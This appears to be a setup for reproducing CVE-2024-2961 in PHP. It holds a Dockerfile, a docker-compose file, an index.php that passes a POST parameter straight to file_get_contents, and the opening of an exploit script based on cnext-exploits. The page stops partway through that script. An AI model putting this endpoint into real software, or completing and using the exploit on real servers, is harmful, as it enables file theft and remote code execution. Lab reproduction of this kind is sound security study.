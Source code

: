Dockerfile

```yaml
FROM php:8.2.0-apache

RUN apt-get update && apt-get install -y \
    locales \
    wget \
    gcc \
    g++ \
    build-essential \
    vim \
 && rm -rf /var/lib/apt/lists/*

RUN echo "zh_TW.UTF-8 UTF-8" > /etc/locale.gen && locale-gen

RUN docker-php-ext-install iconv

WORKDIR /var/www/html
COPY index.php .

EXPOSE 80
```

docker-compose.yml

```yaml
version: '3.8'
services:
  web:
    build: .
    ports:
      - "8080:80"
    container_name: cve-2024-2961-custom
    restart: unless-stopped
```

index.php

```php
<?php    
$data = file_get_contents($_POST['file']);
echo "File contents: $data";
```

exploit.py：參考自 [cnext-exploits](https://github.com/ambionics/cnext-exploits)

```python
from __future__ import annotations
import base64, zlib, sys, re
from pathlib import Path
from requests.exceptions import ConnectionError, ChunkedEncodingError
from pwn import *
from ten import *

heap_size = 2 * 1024 * 1024
vulnerability = "劄".encode("utf-8")
session = Session()
url = ""
command = ""
heap = None
pad_size = 20
info = {}

def send(path, url):
    return session.post(url, data={"file": path})

def download(path, url):
```